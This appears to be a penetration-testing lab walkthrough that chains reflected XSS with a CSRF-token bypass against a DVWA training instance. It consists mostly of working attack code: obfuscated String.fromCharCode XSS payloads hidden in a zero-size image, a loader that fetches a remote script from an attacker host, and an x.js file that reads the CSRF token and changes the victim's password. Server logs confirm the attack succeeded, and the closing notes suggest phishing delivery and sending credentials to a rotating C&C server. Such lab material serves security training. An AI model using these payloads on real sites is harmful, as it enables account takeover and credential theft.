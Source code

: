 #### 4.1. XSS + CSRF bypass (high security DVWA)

Attempting CSRF bypass via XSS.
Note: SoP does not allow access to the DOM of an `iframe` - therefore we cannot fetch the CSRF token from the target page.

#### 4.1.1. find XSS on victim website

```javascript
<!-- alert(123) -->
http://172.16.201.160/vulnerabilities/xss_r/?name=<img src=x onerror=eval(String.fromCharCode(97,108,101,114,116,40,49,50,51,41))>
```


#### 4.1.2. prepare JavaScript payload (as remote JS file) that collects CSRF token - `x.js`

```javascript
var res = document.createElement("div");
var xhr = new XMLHttpRequest();
xhr.open('GET', '/vulnerabilities/csrf/', true);
xhr.onreadystatechange = function() {
if (xhr.readyState === 4)  { 
	res.innerHTML = xhr.responseText;
	user_token = res.querySelector('[name="user_token"]').value;
}};
xhr.send(null);
```


#### 4.1.3. prepare XSS payload that loads and executes remote JS file

##### a) low security
```
http://172.16.201.160/vulnerabilities/xss_r/?name=<img src=x onerror="var x=document.createElement('script');x.src='http://172.16.195.1:8081/x.js';document.body.appendChild(x);">
```

##### b) high security (no JS errors, hidden image)

Decoded:
```
http://172.16.201.160/vulnerabilities/xss_r/?name=Alex<img onload=eval("var x=document.createElement('script');x.src='http://172.16.195.1:8081/x.js';document.body.appendChild(x);") style="width:0;height:0;border:0;" src="/dvwa/images/logo.png">
```

Encoding for `eval()`:
```js
x = "abcd";
var c=[]; for (i=0; i<x.length;i++) {c.push(x[i].charCodeAt())}
// c = [97, 98, 99, 100]
String.fromCharCode(97, 98, 99, 100) // "abcd"
```

Final payload:
```
http://172.16.201.160/vulnerabilities/xss_r/?name=Alex<img onload=eval(String.fromCharCode(118,97,114,32,120,61,100,111,99,117,109,101,110,116,46,99,114,101,97,116,101,69,108,101,109,101,110,116,40,39,115,99,114,105,112,116,39,41,59,120,46,115,114,99,61,39,104,116,116,112,58,47,47,49,55,50,46,49,54,46,49,57,53,46,49,58,56,48,56,49,47,120,46,106,115,39,59,100,111,99,117,109,101,110,116,46,98,111,100,121,46,97,112,112,101,110,100,67,104,105,108,100,40,120,41,59)) style="width:0;height:0;border:0;" src="/dvwa/images/logo.png">
```
Note: payload could be fully URL-encoded when used together with phishing/social-engineering attack `(^_^)`


##### c) alternative payload (placing the the script inside `<head></head>`)
```
var x=document.createElement('script');x.src='http://172.16.195.1:8081/x.js';document.getElementsByTagName('head').appendChild(x);"
```


#### 4.1.4. prepare JavaScript payload (as remote JS file) that runs CSRF attack via XSS

File: `x.js`

```javascript
function csrfChangePass(token, pass) {
   var xhr = new XMLHttpRequest();
   var params = '?user_token=' + token + '&password_new=' + pass + '&password_conf=' + pass + '&Change=Change';
   
   xhr.open("GET", "/vulnerabilities/csrf/" + params, true);
   xhr.withCredentials = true;
   var body = ""; // params data could be here if POST request
   var aBody = new Uint8Array(body.length);
   for (var i = 0; i < aBody.length; i++)
      aBody[i] = body.charCodeAt(i); 
   xhr.send(new Blob([aBody]));
}

history.pushState('', '', document.location.pathname)
var res = document.createElement("div");
var xhr = new XMLHttpRequest();
xhr.open('GET', '/vulnerabilities/csrf/', true);
xhr.onreadystatechange = function() {
   if (xhr.readyState === 4)  {
      res.innerHTML = xhr.responseText;
	  user_token = res.querySelector('[name="user_token"]').value
	  if (user_token !== null) {
            csrfChangePass(user_token, '123');
	  }
   }
};
xhr.send(null);
```


#### 4.1.5. inspect logs server-side to check desired outcome

```
172.16.201.1 - - [NOLOGSNOCRIME] "GET /vulnerabilities/xss_r/?name=Alex%3Cimg%20onload=eval(String.fromCharCode(118,97,114,32,120,61,100,111,99,117,109,101,110,116,46,99,114,101,97,116,101,69,108,101,109,101,110,116,40,39,115,99,114,105,112,116,39,41,59,120,46,115,114,99,61,39,104,116,116,112,58,47,47,49,55,50,46,49,54,46,49,57,53,46,49,58,56,48,56,49,47,120,46,106,115,39,59,100,111,99,117,109,101,110,116,46,98,111,100,121,46,97,112,112,101,110,100,67,104,105,108,100,40,120,41,59))%20style=%22width:0;height:0;border:0;%22%20src=%22/dvwa/images/logo.png%22%3E HTTP/1.1" 200 1961 "-" "Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.9 Safari/537.36"
172.16.201.1 - - [NO LOGS NO CRIME] "GET /vulnerabilities/csrf/ HTTP/1.1" 200 1770 "http://172.16.201.160/vulnerabilities/xss_r/" "Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.9 Safari/537.36"
172.16.201.1 - - [NOLOGSNOCRIME] "GET /vulnerabilities/csrf/?user_token=da735f06068570ed350a8237ab6ce3b0&password_new=123&password_conf=123&Change=Change HTTP/1.1" 200 1783 "http://172.16.201.160/vulnerabilities/xss_r/" "Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.9 Safari/537.36"
```


#### 4.1.6. Attack flow

- victim executes XSS payload on their behalf (in the browser)
- XSS payload loads remote JS file that executes malicious code in the context of the current user-session
  * 1st XHR request to fetch the CSRF token
  * 2nd XHR request to change user password on form protected by CSRF token
- current user password is changed
- extra: attacker can log user-name & password by sending XHR requests to their C&C server
- extra: after successful logging attacker can tear-down the C&C endpoint and spawn another (random) one for further affairs
